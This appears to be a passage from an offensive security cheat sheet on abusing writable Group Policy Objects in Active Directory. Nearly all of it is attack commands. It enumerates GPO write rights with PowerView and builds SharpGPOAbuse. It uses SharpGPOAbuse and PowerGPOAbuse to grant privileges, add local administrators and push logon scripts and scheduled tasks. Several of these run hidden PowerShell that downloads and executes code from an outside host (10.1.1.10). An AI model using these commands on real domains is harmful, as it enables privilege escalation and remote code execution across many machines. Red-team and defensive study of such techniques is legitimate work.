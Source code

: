 :triangular_flag_on_post: GPO Priorization : Organization Unit > Domain > Site > Local

GPO are stored in the DC in `\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`, inside two folders **User** and **Machine**.
If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at `Machine\Preferences\ScheduledTasks`.

:warning: Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`. 

#### Find vulnerable GPO

Look a GPLink where you have the **Write** right.

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

#### Abuse GPO with SharpGPOAbuse

```powershell
# Build and configure SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# Adding User Rights
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Adding a Local Admin
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Configuring a User or Computer Logon Script
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# Configuring a Computer or User Immediate Task
# /!\ Intended to "run once" per GPO refresh, not run once per system
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```

#### Abuse GPO with PowerGPOAbuse

* https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

```